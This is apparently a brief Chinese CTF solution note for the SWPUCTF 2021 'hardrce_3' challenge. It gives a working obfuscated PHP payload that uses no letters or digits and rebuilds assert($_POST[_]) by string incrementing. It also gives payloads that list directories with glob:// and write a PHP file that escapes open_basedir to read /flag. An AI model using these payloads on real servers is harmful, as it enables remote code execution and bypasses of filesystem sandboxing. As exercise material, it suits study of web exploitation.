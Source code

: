 # 知识点
无数字字母rce<br />自增<br />bypass open_basedir<br />[NSS日刷-[SWPUCTF 2021 新生赛]hardrce_3-open_basedir绕过 - Aninock - 博客园](https://www.cnblogs.com/aninock/p/16461151.html)
# 思路
assert($_POST[_])
```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
bypass open_basedir
```php
读目录 _=var_dump(scandir("glob:///*"));

_=file_put_contents('1.php',"<?php print_r(ini_get('open_basedir').'<br>'); mkdir('test'); chdir('test'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); echo file_get_contents('/flag'); print(1);?> ")
```
